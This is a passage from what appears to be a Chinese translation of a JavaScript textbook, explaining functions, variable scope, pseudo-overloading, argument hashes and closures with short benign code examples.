for (var i = 0; i < 100; i++) ;
```

最后一行显示了你在 `for` 循环中使用 `var` 来实例化变量，这是一种常见做法。使用 `var` 声明变量也有助于你明确变量的作用范围。例如，在接下来的示例中，有两个名为 `myVar` 的变量。它们是相互隔离且不相同的，因为它们在不同的作用域内通过 `var` 显式定义：

```javascript
var myVar = 10;

function myFunct () {
    var myVar = "Hello world";
    document.write ("myVar in myFunct () : " + myVar + "<br />");
}

myFunct () ;
document.write ("myVar in global scope: " + myVar + "<br />");
```

这将产生以下输出：
myVar in myFunct () : Hello world
myVar in global scope: 10

## with

JavaScript 中一个较少为人知的关键字和语句是 `with`。它本质上允许你扩展特定对象的作用域链，并让你像访问本地成员一样访问其成员。简而言之，在处理如 `document.body.style` 等长对象时，它可以让你少写很多代码。它在评估包含方法或属性的表达式时，会在查看作用域链的其他部分*之前*检查该对象。`with` 的通用语法是：`with (object) statement`

例如，你可能按以下方式使用它更改文档某些样式：

```javascript
// Using with to simply code blocks containing repetitive use of object names
with (document.body.style) {
    backgroundColor = "green";
    fontSize = "30px";
    fontFamily = "Courier, monospace";
}
```

这相当于写入：
```javascript
document.body.style.backgroundColor = "green";
document.body.style.fontSize = "30px";
document.body.style.fontFamily = "Courier, monospace";
```

虽然这看起来很方便，但有几个理由可以考虑*不使用* `with` 语句：
- 因为使用 `with` 对自然作用域链进行了“重路由”，当使用 `with` 语句所描述的对象中*不存在*的方法和变量名时，解释器执行搜索可能会花费更多时间，导致你的程序运行较慢（尽管非常轻微）。
- 虽然使用 `with` *编写*代码可能更容易，但阅读起来更难。对于你代码的普通读者来说，可能并不清楚哪些对象实际上是通过 `with` 对象访问的，哪些是在作用域链的其他地方找到的。
- 如果引用的标识符既存在于 `with` 语句使用的对象中，又存在于作用域链的别处，可能会导致一些不可预测的结果。如果你忘记在对象中使用该变量，解释器将突然开始使用作用域链中更高位置的那个，这无疑会导致程序逻辑错误。

为了透明度起见，你也可以按照如下方式编写相同的代码块：

```javascript
var dbs = document.body.style;
dbs.backgroundColor = "green";
dbs.fontSize = "30px";
dbs.fontFamily = "Courier, monospace";
```

这与使用原始的 `with` 简写一样简单。

## 总结

本章探索了 JavaScript 中的几个新主题。总结来说，你学习了：
- 表达式是任何有效的变量、字面量和操作符集合，可以解析为单个值。你在条件语句中广泛使用它们，并用它们影响变量。
- 有六大类运算符。由于 JavaScript 的动态类型特性，它们与数据的交互可能会产生不同的结果，取决于所使用的数据类型和所应用的操作。
- 运算符具有可预测的从左到右的结合性和脚本执行优先级。这告诉你如何构建表达式，使其按照你设想的模式执行。
- JavaScript 支持大量且相当标准的语句集。这些包括条件语句；循环和迭代语句；用于创建函数和返回值的语句；异常处理语句以及其他几种。

在第 5 章中，我将开始深入讨论函数，函数是执行特定任务的离散且可用的代码块。我将涉及到作用域、返回值、重载和 `closures`。

# Functions

在现阶段，你已经在之前的章节示例和讨论中遇到过函数。如果你熟悉另一种编程语言，你对这个概念并不陌生。与其他所有事情一样，JavaScript 的处理方式与其他语言略有不同，所以如果这描述了你——别担心；你可能会学到一些以前不知道的东西。

JavaScript 函数的有趣之处在于，与其他语言相比，它们的功能相当有限——但同时，也有一些特性让它们变得极其强大。例如，正如你很快看到的，虽然你不能从传统意义上重载 JavaScript 函数，但你可以在程序运行期间动态更改它们，甚至创建新的函数。JavaScript 的动态性质延伸到了处理函数的多种方式。

## The Function Object

JavaScript 中的所有函数都是 `first class objects`（类对象），这意味着它们可以像任何其他对象引用一样被传递。事实上，无论如何创建，函数都是一个名为（恰如其名）`Function` 的全局对象的实例。这意味着你代码中的每个函数都可以访问某些方法和属性，并可以像对象一样被处理。在附录 B 中，我详细介绍了这些方法和属性。现在，这里有一个快速参考。请记住，并不是所有的成员在所有的 JavaScript 解释器中可用。兼容性信息请参见附录 B。

 

## Declaring Functions

在现代 JavaScript 中，除了你目前看到的基本方法外，还有几种定义或声明函数的方法。理解这种灵活性的关键在于，从根本上说你处理的是对象。像大多数对象一样，它们可以随时被创建、销毁和修改。

定义函数最基本的方法也是自 JavaScript 第一版本以来支持的方法。使用第 4 章描述的函数语句。语法如下：

```javascript
function functionName([argname1 [, ...[, argnameN]]]) {
    statements;
}
```

在选择函数名时，请记住第 2 章描述的标识符命名规则。此外，确保避开保留关键字（见附录 E）。通常，你还应该采用一致的命名规范。对于函数，有时习惯使用一种名为 `lowerCamelCase`（小驼峰命名）的大写形式，涉及复合词。第一个单词以小写字母开头，所有后续单词以大写字母开头。关于命名规范的更多信息，请务必查看第 23 章。

你还可以选择任意数量的参数，这些参数可以作为局部变量传递给函数。这些参数可以在函数内部访问，并且可以是任何类型——甚至是对其他函数的引用。

```javascript
// 使用函数语句声明函数
function writeln(message) {
    // 首先我们检查参数是否存在
    if (message)
        document.write(message + "<br />");
    // 现在我们使用 document.write 将其写入文档，并添加了换行符
}

writeln("Hello world!"); // "Hello World!"
```

当你以这种方式创建函数时，它们会被添加到全局对象中，这意味着它们可以从任何地方访问。在浏览器中，可以通过输入 `writeln()` 或输入 `window.writeln()` 来访问此处函数。在浏览器对象模型中，`window` 对象是全局上下文。稍后你将查看嵌套函数，它们被附加到备用的激活对象或上下文。

上一个示例创建了一个函数，它封装了一个简单的 `document.write()` 函数调用，输出消息以及换行符。你可以用其他几种方式表示这个函数。另一种方法是使用第 4 章演示的函数字面量形式。例如：

```javascript
// 使用函数字面量符号声明函数（一个“匿名”函数）
var writeln = function(message) {
    // 首先我们检查参数是否存在
    if (message)
        document.write(message + "<br />");
}

writeln("Hello world!"); // "Hello World!"
```

这也被称为 `anonymous function`（匿名函数）。术语 `anonymous` 指它不一定有名称。此函数可以访问包含函数中所有的方法和属性。你可以将匿名函数传递给另一个函数，而无需给它起名，如下例所示：

```javascript
function addTwo(myNum, otherMath) {
    myNum += 2;
    if (otherMath)
        myNum = otherMath(myNum);
    return myNum;
}

document.write(addTwo(3, function(x) { return x*3 })); // 15
```

这与嵌套函数的概念密切相关，你将学习它。声明函数的最后方法是使用对象构造函数。记住，函数就像每个数据类型一样都是对象。`Function` 类有一个构造函数使用以下语法：

`functionName = new Function([param1Name, param2Name,...paramNName], functionBody);`

参数名必须作为字符串传递。如果你用这种方法重写我们的 `writeln()` 函数，它看起来像这样：

```javascript
// 使用 Function 类构造函数声明函数
var writeln = new Function("message", "if (message) document.write(message + '<br />');");

writeln("Hello world!"); // "Hello World!"
```

## Passing Arguments by Value versus Reference

正如第 3 章所述，取决于变量是原始类型还是引用类型，按值或引用传递。当你将原始数据类型传递给函数时，无法在函数外部更改它们的值，但当你对复合或引用数据类型执行相同操作时，你会修改它们的原始值，如下例所示：

```javascript
var myNum = 100;
var myObj = {name: 'David', age:12};

function changeVals(num, obj) {
    num = 0;
    obj.name = "Changed";
}

changeVals(myNum, myObj);

document.write(myNum + "<br />"); // "100"
document.write(myObj.name + "<br />"); // "Changed"
```

这将会输出以下文本：
100
Changed

如果所有数据类型的行为都是相同的，你可能会期望结果是 0 和 Changed 之间或 100 和 David 之间。由于 `Number` 是原始类型而 `Object` 是引用类型，它们在这方面的表现不同。总结一下，按值传递的原始数据类型有：
* `Number`
* `String`
* `Boolean`
* `null`
* `undefined`

仅按引用传递的引用数据类型有：
* `Object`
* `Array`
* `Function`
* `Date`
* `RegExp`（正则表达式）
* `Error`（及其子类型）

## 返回值

所有函数都会返回一个值。你可以使用 `return` 语句有意识地控制返回的值（如在第 3 章中所描述的）。如果没有指定 `return` 语句，则会自动返回一个 `undefined` 值。请注意，每当你调用 `return` 时，函数的执行会立即停止，即使函数中还有更多代码需要执行。以下函数返回一个简单的 `Number` 值：

```javascript
// 从函数返回值
function addTwoNumbers (x,y) {
    return (x + y);
}

document.write( addTwoNumbers (9,3) );     // "12"
```

记住，对于函数可以返回的内容你拥有极大的灵活性。例如，你可以返回文档对象引用，甚至像下面的示例一样返回一个任意对象：

```javascript
// 返回复杂对象
function addTwoNumbers (x,y) {
    return {result:(x+y), originalX: x, originalY: y};
}

var sumResult = addTwoNumbers (9,3) ;
document.write("Sum: " + sumResult.result + " (comes from adding " + sumResult.originalX + " and " + sumResult.originalY + ")");
// "Sum: 12 (comes from adding 9 and 3)"
```

# 变量作用域

变量的 `scope`（作用域）指的是程序中可以直接访问它的。我在讨论隐式与显式变量声明时已经提到过这个概念。当变量被显式定义时，程序的所有部分都可以访问它们——因此它们具有 `global scope`（全局作用域）。如果变量的作用域局限于其函数，它具有 `local scope`（局部作用域）。变量所属的作用域称为它的 `context`（上下文）。属于窗口或全局对象的变量也具有全局上下文。这很困惑，对吧？我将通过一些示例来澄清这一情况。

全局上下文包含许多可以被程序任何部分访问的对象。当你创建一个全局变量时，它会加入一组处于同一层级的其他方法和属性中。其中一些是 JavaScript 语言的内置部分，另一些则是由于你正在特定的网络浏览器中工作而存在的浏览器插件。关于这些内置成员的更多信息，请参见第 6 章。

```javascript
var a = "apple";

function myFunct () {
    var a = "book";
    document.write(a + "<br />"); // "book"
}

myFunct();     // "book"
document.write(a + "<br />"); // "apple"
```

此代码段的输出将如下：
book
apple

要理解为什么这样做，首先要知道解释器是如何执行作用域的。在你的代码中，调用了函数 `myFunct()`，它声明了一个名为 `a` 的变量。当你在下一行引用该变量时，解释器首先检查局部作用域（函数上下文）以查看它是否已定义。如果没有找到，它将向上移动作用域层级，直到到达全局作用域（浏览器中的 `window` 对象），在此过程中进行检查。

如果它实际上在局部作用域中找到了该变量，它将使用这一个，而不是 `scope chain`（作用域链）中更高处可能出现的任何同名变量。在示例中，我在你的函数内部创建了第二个名为 `a` 的变量，然后给它赋值了一个与全局作用域中同名变量不同的值。这个变量不会干扰全局作用域中的那一个。这就是为什么当你在最后再次测试该变量时，它仍然是原始值。

如果你看第二个示例，情况恰反相反：

```javascript
var a = "apple";

function myFunct () {
    a = "book";
    document.write(a + "<br />");    // "book"
}

myFunct();    // "book"
document.write(a + "<br />"); // "book"
```

这将产生以下输出：
book
book

在这个示例中，你没有在局部作用域中显式定义变量 `a`，因此它依赖于 `global scope` 并知道你正在重新赋值全局变量。当你更改它的值时，你正在更改全局作用域中变量的值。

同样重要的是，作用域链是根据源代码的布局计算的，而不是根据调用栈。这意味着，如果你从另一个也有一个名为 `a` 变量的函数中调用 `myFunct()`，它仍然只会修改全局作用域。参见下面的示例：

```javascript
var a = "apple";

function myFunct () {
    a = "book";
    document.write(a + "<br />");    // "book"
}

function myFunct2 () {
    var a = "tree";
    myFunct () ; // "book"
    document.write(a + "<br />");    // "tree"
}

myFunct2();    // "book, tree"
document.write(a + "<br />"); // "book"
```

这个示例稍难跟上，但它将产生以下输出：
book
tree
book

这说明了 `static scoping`（静态作用域），它遵循对象的层级结构而不是调用栈。在这个示例中，你在全局上下文中声明了变量 `a`。调用了函数 `myFunct2()`，它在局部上下文中重新定义了变量 `a`。如前所示，这不会影响全局变量。然后该函数调用了 `myFunct()`，它只是尝试修改变量 `a` 而没有声明它。此操作修改了全局实例，而不是由 `myFunct2()` 定义的局部实例。这就是为什么当 `myFunct()` 终止且线程返回 `myFunct2()` 时，局部变量 `a` 未不受。

虽然这可能令人困惑，这也是编码实践的一个教训。一方面，它告诉你如果不需要全局作用域，就需要避免全局变量（有时有时是需要的）。另一方面，它应该提醒你为我们的标识符提供描述性名称的性。

在网络浏览器中，也可以从 `window` 对象访问全局作用域。全局上下文中的变量可以仅通过名称访问，也可以使用 `window.identifier`。

# 重载

在某些编程语言中，你可以定义多个同名的函数。它们在内存中保持分离，事实是该函数的每个版本在以下一个或多个属性上都是是独特的：
* 函数名
* 所需的参数数量
* 参数的顺序
* 每个参数的数据类型
* 参数名称
* 函数返回的数据类型

编译器反过来会通过查看你传递了哪些参数、你期望返回什么数据类型等，将函数调用连接到正确的实例。这被称为 `function overloading`（函数重载）或多态。虽然 JavaScript 的某些功能是多态的（例如 `+` 运算符），但在函数方面，JavaScript 没有内置的这种机制。事实上，如果你尝试重载函数，将使用最近的定义。这是由于函数等对象具有可变性。

```javascript
// 演示尝试函数重载的效果
function threeArguments (a, b, c) {
    return "We expect 3 arguments: " + a + ", " + b + ", " + c;
}

// 现在我们尝试重载函数
function threeArguments (a,b,c,d) {
    return "Now we expect 4 arguments: " + a + ", " + b + ", " + c + ", " + d;
}

// 现在我们尝试使用第一个版本
document.write( threeArguments (1, 2, 3) ); // "We expect 4 arguments: 1, 2, 3, undefined"
```

我们看到 `threeArguments` 的引用被重写了。你可以在这里看到，当你到达实际调用该函数的代码行时，`threeArguments()` 包含三个参数的原始描述已经被覆盖了（参见 图 5-1）。图 5-1 ``

记住，像 `threeArguments` 这样的指针并不包含函数的所有数据。它们只包含指向持有函数的内存中实际位置的`reference`。当你像上一个示例那样删除函数引用时，你实际上是在覆盖包含该函数的原始内存位置。相反，你可以使用匿名函数指针在内存中创建一个新函数，将其分配给原始指针，并保留对旧函数的引用。为了证明这一点，我将在重写旧指针之前通过将指针复制到另一个变量来创建一个某种`backup`。再次，这是可能的，因为当你使用匿名函数时，你完全是为该对象分配了新的内存。

// 备份函数引用，然后删除原始引用

```javascript
function threeArguments (a, b, c) {
    return "We expect 3 arguments: " + a + ", " + b + ", " + c;
}

// 创建引用的备份
var threeArgumentsBackup = threeArguments;

// 现在我们尝试重载函数
threeArguments = function(a,b,c,d) {
    return "Now we expect 4 arguments: " + a + ", " + b + ", " + c + ", " + d;
}

// 现在我们尝试使用第一个版本
document.write( threeArguments (1, 2, 3) + "<br />"); // "We expect 4 arguments: 1, 2, 3, undefined"

// 现在我们尝试使用备份
document.write( threeArgumentsBackup (1, 2, 3) + "<br />"); // "We expect 3 arguments: 1, 2, 3"
```

我们看到 `threeArguments` 的原始引用被保留了。这段代码的输出如下：

Now we expect 4 arguments: 1, 2, 3, undefined
We expect 3 arguments: 1, 2, 3

我们对这种交互的建模图现在看起来像 图 5-2。图 5-2 ``

虽然我证明了并不支持真正的重载，但有一些技术可以实现与重载相同的`effect`。我已经展示了函数在响应中不需要返回一致的数据类型。这意味着你可以根据呈现的参数来更改函数的返回值。这符合多态函数的目标之一。另一个目标——动态参数定义，可以通过利用另外几个方便的功能来实现：可选参数和`arguments` 对象本身。

## 可选参数

ECMAScript 规范中明显缺失的另一个特性是`optional arguments`（可选参数）。在 PHP 和 C++ 等其他语言中，你有能力定义函数期望的参数，但如果没有提供这些参数，它们将使用默认值实例化。与 C# 一样，JavaScript 不允许你在函数定义中这样做。然而，如果你在调用函数时忽略了某些参数，解释器不会将其视为语法错误。你可以利用这一事实来模拟可选参数。看以下示例：

```javascript
// 在函数中模拟可选参数
function addFiveNumbers (a,b,c,d,e) {
    var result = 0;
    if (a)
        result += a;
    if (b)
        result += b;
    if (c)
        result += c;
    if (d)
        result += d;
    if (e)
        result += e;
    return result;
}

document.write (addFiveNumbers (1,2,3));    // 6
```

在前面的示例中，你有一个期望五个参数 `(a,b,c,d,e)` 的函数。当你在代码段底部调用该函数时，只提供了五个参数中的三个。JavaScript 解释器将传递这三个参数，并为剩下的两个赋值为 `undefined`。使用第 3 章描述的`type coercion`（类型转换）原理，`undefined` 的值在作为布尔值测试时会被求值为 `false`。在构建输出结果时，你只需要通过 `if (var) ....` 来检查所有参数是否已定义。或者，如果对我们有帮助，你可以为这些变量分配默认值，如下所示对 `addFiveNumbers()` 函数的修改：

```javascript
// 一种更简洁的可选参数默认值方法
function addFiveNumbers(a,b,c,d,e) {
    if (!a) a = 0;
    if (!b) b = 0;
    if (!c) c = 0;
    if (!d) d = 0;
    if (!e) e = 0;
    // (此处继续逻辑)
}
```

`arguments` 对象是所有函数的本地属性。它本质上是一个类似于 `Array` 的对象，保存了传递给函数的所有参数——无论这些参数是否在函数定义中列出。我将在第 9 章中详细讨论 `Array` 语法，但 `arguments` 对象仅仅看起来像一个 `Array` —— 它并不具备许多 `Array` 类的属性。目前，你只需要知道访问典型 `Array` 的元素使用中括号运算符 `[ ]` 即可。参数在数组中的顺序与它们传递给函数的顺序一致。要访问第一个元素，你可以使用 `arguments[0]`。第二个参数可以使用 `arguments[1]` ，以此类推。你可以通过查看 `arguments.length` 来了解总参数数。

// 使用 arguments 对象读取传递给函数的任何所有参数

```javascript
function myFunction() {
  for (var i = 0; i < arguments.length; i++) {
    document.write(i + ": " + arguments[i] + "<br />");
  }
}

myFunction("Hello", 21, new Date());
```

根据上一个示例中传递的参数，将生成以下输出：

0: Hello
1: 21
2: Tue Dec 02 2008 10:57:08 GMT-0800 (PST)

仅依赖 `arguments` 对象，你可以为函数提供比上一节中描述的可选参数技术更好的“伪重载”实现。缺点是，从视觉上观察函数时，它的接口并不那么直观，而且对我们的代码进行内省的 IDE 将无法提供智能提示辅助。像 `JSDoc` 这样的文档工具也无法自动生成函数接口的文档。这是一个使用 `arguments` 对象进行伪重载的简单示例：

// 使用 arguments 对象进行伪重载

```javascript
function saveData() {
  if (arguments.length == 2) {
    // 这是其中一种保存行为
  } else if (arguments.length == 4) {
    // 这是另一种类型
  }
}
```

# 参数哈希

还有另一种向函数传递参数的技术，它不仅允许你设置默认值，还允许提供重载能力。这种方法涉及使用一个包含 `hash`、`关联数组`或对象的单个参数。由于其高效性、易用性和灵活性，这种方法比其他技术越来越受欢迎。

尽管 JavaScript 中没有实际上称为 `hash` 的特定数据类型，我的真实意思是使用一个普通对象来存储一组键值对。在第 3 章中我涵盖了`对象字面量`（object literals），它们看起来像这样：

`var myObj = {name:'Jimmy', age:12, height: '180cm' };`

在第 9 章和第 10 章中，将更详细地讨论对象和数组。现在我将基于你已知的知识进行说明，即对象可以使用这样的字面量符号来描述。使用前面的示例，你可以这样访问 `myObj` 的 `age` 属性：`myObj.age`。如果你使用对象的键值对作为参数，可以用许多参数替换单个参数，如下例所示：

// 使用对象哈希向函数发送任意参数

```javascript
function describeBook(args) {
  document.write("Name: " + args.name + "<br />");
  document.write("Pages: " + args.pages + "<br />");
  document.write("Chapters: " + args.chapters + "<br />");
  document.write("Author: " + args.author + "<br />");
  document.write("Publish Date: " + args.published + "<br />");
  document.write("Type: " + args.type + "<br />");
  document.write("Section: " + args.section + "<br />");
}

describeBook({name: 'Gone with the Wind', pages:1021, chapter:22, author: 'Margaret Mitchell', published: '1936', type: 'Paperback', section: 'Historical Fiction' });
```

这与上一节中描述的 `arguments` 方法相比有一个明显的优势。如果你使用 `arguments` 对象，你必须以非常特定的顺序提供参数，否则函数将无法知道哪些参数映射到哪些数据。通过使用对象字面量，它们的进入顺序并不重要，因为每个值都映射到一个特定的键，并可以使用点符号访问该键。重用前两节介绍的方法，通过检查可用哪些特定属性并采取相应的操作，你可以使此函数产生重载。例如，在 `describeBook()` 示例中，你可以检测某些属性是否可用并仅显示这些属性：

// 使用参数哈希的简单重载

```javascript
function describeBook(args) {
  if (args.name)
    document.write("Name: " + args.name + "<br />");
  if (args.pages)
    document.write("Pages: " + args.pages + "<br />");
  if (args.chapters)
    document.write("Chapters: " + args.chapters + "<br />");
  if (args.author)
    document.write("Author: " + args.author + "<br />");
  if (args.published)
    document.write("Publish Date: " + args.published + "<br />");
  if (args.type)
    document.write("Type: " + args.type + "<br />");
  if (args.section)
    document.write("Section: " + args.section + "<br />");
}

describeBook({name: 'Gone with the Wind', author: 'Margaret Mitchell', section: 'Historical Fiction'});
```

这种方法虽然有效，但如果不阅读每行代码，它几乎不能为开发者提供关于哪些参数是可接受的任何提示。它也没有提供任何默认值机制。能够指定默认值对于我们函数的正确运行可能至关重要。幸运的是，有一种简单的方法可以将 `args` 对象与一组默认值合并，这种方法既简洁又易读：

// 将参数对象与包含默认值的对象字面量合并

```javascript
function describeBook(args) {
  var fArgs = defaults({
    name: 'Unknown',
    pages: 1,
    chapters: 1,
    author: 'John Doe',
    published: 'Unknown',
    type: 'Paperback',
    section: 'Unclassified Books'
  }, args);
  document.write("Name: " + fArgs.name + "<br />");
  document.write("Pages: " + fArgs.pages + "<br />");
  document.write("Chapters: " + fArgs.chapters + "<br />");
  document.write("Author: " + fArgs.author + "<br />");
  document.write("Publish Date: " + fArgs.published + "<br />");
  document.write("Type: " + fArgs.type + "<br />");
  document.write("Section: " + fArgs.section + "<br />");
}

// 确保对象至少包含一组特定的
// 带有默认值的键 / 值对列表
function defaults(defaultValues, originalArgs) {
  // 确保我们处理的是一个有效对象
  if (originalArgs && typeof originalArgs == "object") {
    for (var arg in originalArgs)
      defaultValues[arg] = originalArgs[arg] || defaultValues[arg];
  }
  // 输出新对象而不修改原始对象
  return defaultValues;
}
```

describeBook({name: 'Gone with the Wind', author: 'Margaret Mitchell', section: 'Historical Fiction' }) ;此示例中的有几点是新的。同样，你是在向 `describeBook()` 传递一个对象，而不是一组参数。然而，现在你在函数内部创建了一个名为 `fArgs` 的新对象（代表“最终参数”），并使用一个名为 `defaults()` 的新函数，将包含我们所有必需属性和默认值的字面量对象与我们的 `args` 对象合并。

至关重要的是记住对象是`引用类型`（reference types）。如果你将一个对象引用传递给函数并更改该对象，更改将应用于原始对象。这在本章的前面已经解释过。此处的意义在于，在为函数应用默认值的过程中，你被迫创建一个 `new` 对象（`fArgs`），以避免修改原始对象。

在你的新函数 `defaults()` 中，你接受两个参数：`defaultValues`，这是一个包含所有你想要确保存在且具有初始值的对象；以及 `originalArgs`，它是传递给原始函数的参数对象。同样，在 `defaults()` 中，你只修改 `defaultValues`（这是一个新对象），以避免永久修改原始对象。接下来，在行 `if (originalArgs && typeof originalArgs == "object")` 中……你检查确保参数对象不空且类型为对象 `type`（使用 `typeof` 运算符）。最后，你在接下来的部分中使用 `for .. in` 迭代器遍历参数值：

```javascript
for (var arg in originalArgs)
    defaultValues[arg] = originalArgs[arg] || defaultValues[arg] ;
```

对于每次迭代，属性名（`key / value` 中的 `key`）都会被赋值给变量 `arg`。在第 9 章中，我展示了如何使用此处看到的括号表示法将此类对象用作数组。现在，你只需要知道 `originalArgs.name` 等于 `originalArgs["name"]` 即可。这就是你能够动态检查对象是否存在自定义属性的方法。`(originalArgs[arg] || defaultValues[arg])` 语句简单意味着：如果在 `originalArgs` 中没有找到 `arg`，则使用 `defaultValues` 中的值。通过这种方式，你将 `originalArgs` 中包含的所有值合并到 `defaultValues` 中。如果缺少任何属性，你将保留默认版本。

最后，你所做的是合并了一组用于函数的参数，并且你可以保证这些参数至少有一个默认值。如果你愿意，甚至可以扩展你的 `defaults()` 方法对每个默认值进行类型检查，并确保你的对象根据类型以及属性都符合该定义。目前，前述示例的输出将是：

Name: Gone with the Wind
Pages: 1
Chapters: 1
Author: Margaret Mitchell
Publish Date: Unknown
Type: Paperback
Section: Historical Fiction

# 嵌套函数


由于函数是第一类对象，你可以很容易地在函数内部创建函数。这被称为函数嵌套。考虑以下示例：

```javascript
// Nesting functions
function addSquare(a,b) {
    function multiply(x,y) {
        return x*y;
    }
    return multiply((a+b),(a+b));
}

document.write( addSquare(3,4) );    // 49
```

此示例中的嵌套函数 `multiply(x,y)` 形成了一个`闭包`（closure），意味着它继承包含它的函数或对象的方法和属性。内部对象是外部函数作用域的`扩展`（extension）。值得注意的是，虽然内部函数可以访问外部函数的局部变量，反之则不然。此外，内部函数只能从外部函数访问——无法从全局上下文中访问。

```javascript
// Demonstrating the scope properties of closures
function addFive(theVal) {
    function addNumber(howmany) {
        return theVal+howmany;
    }
    return addNumber(5);
}

document.write( addFive(15) );    // 20
```

在这个示例中，你可以从闭包 `addNumber()` 访问局部变量 `theVal`，因为 `addFive()` 的作用域扩展到了嵌套函数 `addNumber()`。

## 闭包

在上一节中我提到了`闭包`。这个概念值得更完整的解释。在上一节中，我展示了嵌套函数如何访问父函数的属性。闭包是它们实现此点的机制。每当你创建一个引用其直接作用域之外属性的函数时，就会形成一个闭包。

```javascript
// A simple example of a closure
function greetMe(name) {
  return function(greeting) {
    return greeting + " " + name;
  }
}

var greetAlexei = greetMe("Alexei");
document.write( greetAlexei("Hello") ); // "Hello Alexei"
```

这个示例的有趣之处在于，我从 `greetMe()` 返回了一个匿名函数的引用，并将其赋值给变量 `greetAlexei`。尽管包含局部变量 `name` 引用的上下文在函数终止后应该消失，但当我调用 `greetAlexei("Hello")` 时，它仍然完好无损。这是通过我在匿名函数内部引用变量 `name` 时创建的闭包实现的。

如果你感到困惑，请再次查看代码示例。有两个函数，一个嵌套在另一个内部。在内部函数（没有名字）中，你引用了一个仅在外部函数可用的变量（`name`）。闭包是该函数存在的环境，以便访问一个本该不再存在的变量。

### 闭包的用途

在书的后面部分，你将看到闭包被反复使用。它们提供了一种方便的方法，可以在程序中传递执行代码，控制执行代码的上下文，并避免使用 `eval()`（用于执行 JavaScript 代码字符串）带来的混乱和风险。闭包的实际用途从简单到令人费解的奥秘不等。以下是几种常见用途。

#### 清理已评估的代码

在处理事件时，你通常希望响应鼠标点击、按键或其他某些情况执行一段特定的代码。有时，你只是想让某些代码在特定时间后执行。实现此点的一种非常简单的方法是使用 `setTimeout()` 方法：

```javascript
function putTextInLater(objID, text, timedelay) {
    setTimeout("document.getElementById('" + objID + "').innerHTML = '" + text + "'", timedelay);
}

putTextInLater('myDiv', 'Hello World!', 500);
```

这个示例函数将在 500 毫秒后执行表达式 `"document.getElementById(" + objID + ").innerHTML= '" + text + "'"` 包含的字符串。为什么这样做不好？首先，它是*慢的*。为了让解释器执行字符串的内容，必须分配大量的内存来即时编译代码块并向上返回结果。其次，它是*混乱的*（messy）。你本质上是在使用字符串操作编写源代码。这使得你的 IDE 很难帮助你，在视觉上也难以追踪。幸运的是，闭包可以帮助你：

```javascript
// A nice way to use closures with setTimeout
function putTextInLater(objID, text, timedelay) {
    setTimeout(function() {
        document.getElementById(objID).innerHTML = text;
    }, timedelay);
}

putTextInLater('myDiv', 'Hello World!', 500);
```

#### 函数工厂

基于闭包对已不存在的作用域内的变量具有永久访问权限的观点，你可以使用它们来为特定目的预配置复杂的函数，而无需向程序中添加大量额外代码。在接下来的示例中，你通过简单地为另一个函数填充必要的输入，创建了一个简单的将数字乘以 10 的函数：

```javascript
// A function factory that multiplies numbers
function multiplyFactory(multiplier) {
    return function(amount) {
        return amount*multiplier;
    }
}

var timesTen = multiplyFactory(10);
```

```javascript
document.write( timesTen(4) ); // 40
```

当你将 `mulitplyFactory(10)` 的结果赋值给 `timesTen` 时，你基本上是在为“乘以 10”这一特定目的预先配置 `multiplyFactory` 的使用。这简化了你的程序，并且如果你需要更改使用该方法的大块代码的特定配置，会更容易修改。

#### 模拟私有方法

在第 10 章中，我将更详细地讨论面向对象的开发，但你现在就可以使用闭包模拟私有方法（即仅允许该对象内部其他函数访问的函数）。虽然 JavaScript 支持支持具有实例方法的对象，但并没有简单的方法可以创建私有方法，换句话说，就是从该对象的公共接口中隐藏它们。你可能想这样做是为了减少命名空间的污染，并保持你的公共接口尽可能简洁精炼。

让我们假设一种假设的情况：你想使用数组来提高字符串操作的性能。在第 4 章中，我展示了某些字符串拼接操作非常缓慢（特别是在 Internet Explorer 中）。幸运的是，向数组添加元素非常快。在下面的示例中，你在一个名为 `StringBuilder` 的匿名函数内部创建了一个简单的闭包。该闭包被称为 `privateAppend()`，并且它可以访问存在闭包内部的变量 `privateArray`。这个数组包含了我们字符串的所有部分。

```javascript
// 构建一个带有模拟私有函数的高性能字符串拼接器

var StringBuilder = (function() {

  var privateArray = new Array();

  function privateAppend(str) {
    privateArray[privateArray.length] = str;
  }

  return {
    add: function(str) {
      privateAppend(str);
    },
    value: function() {
      return privateArray.join("");
    }
  }
})();

// 首先我们显示字符串是空的

document.write("Our String: " + StringBuilder.value() + "<br />"); // "Our String: "

StringBuilder.add("Super");
StringBuilder.add("Cala");
StringBuilder.add("Frajalistic");

// 现在我们显示完成后的拼接字符串

document.write("Our String: " + StringBuilder.value() + "<br />"); // "Our String: SuperCalaFrajalistic"
```

如果你抛弃 `return` 语句中的所有代码，你就可以专注于这里的核心代码，即 `var StringBuilder` 语句：

`var StringBuilder = (function() { })()`。 

这本质上创建了一个匿名函数，然后立即执行它（使用末尾的括号）。在该函数内部，有一个名为 `privateArray` 的变量和一个名为 `privateAppend()` 的嵌套函数。通常情况下，一旦函数终止，对这些内容的任何引用都会丢失。然而，函数的最后语句是 `return`，它返回了一个包含两个闭包（`add()` 和 `value()`）的对象。这些闭包确保了只要对象 `StringBuilder` 存在，对数组和函数的引用就会持续存在。虽然你无法直接访问函数 `privateAppend()`，因为它是一个嵌套函数，但两个闭包都可以访问。通过这种方式，你可以为简单对象维护公共接口和私有接口。

#### 循环中的闭包

如果你不小心，闭包有时会让你困扰。它们产生这种影响的一种方法是你忘记了它们可以共享相同的变量引用环境。引用同一个函数的闭包会受到该函数局部变量变化的影响——即使在闭包创建之后也是如此。说明这一点的一个经典方法是观察循环如何改变赋值给其他闭包的变量值。

```javascript
// 演示闭包和循环的问题

var myArray = ["Apple", "Car", "Tree", "Castle"];
var closureArray = new Array();

// 遍历 myArray 并为每个项创建一个输出该项的闭包

for (var i = 0; i < myArray.length; i++) {
  var theItem = myArray[i];
  closureArray[i] = function() {
    document.write(theItem + "<br />");
  }
}

// 遍历闭包数组并执行每一个。

for (var i = 0; i < closureArray.length; i++) {
  closureArray[i]();
}
```

在这个示例中，我有一个名为 `myArray` 的单词数组。我还创建了一个名为 `closureArray` 的数组，它将持有所有的闭包。接下来，我遍历 `myArray`，为每个单词创建一个闭包，将其写入页面。请记住，我实际上还没有执行这些闭包，所以页面上什么都不会出现。在示例的最后部分，我遍历闭包数组（`closureArray`）并执行每个函数。你看到的可能会让你惊讶：

Castle

Castle

Castle

Castle

